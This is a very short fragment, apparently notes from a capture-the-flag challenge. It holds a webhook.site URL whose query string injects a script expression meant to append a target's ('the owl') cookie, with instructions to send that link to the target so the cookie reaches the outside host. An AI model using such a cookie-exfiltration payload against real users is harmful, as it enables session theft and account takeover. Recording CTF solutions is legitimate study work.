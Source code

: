 https://webhook.site/4a56917c-d246-4fa7-ac31-8813aa188c30?c=%27%2Bdowl.cookie%2B%27%22

send the owl this link / one that you generate yourself form webhook.site the import part is it includes owl cookie
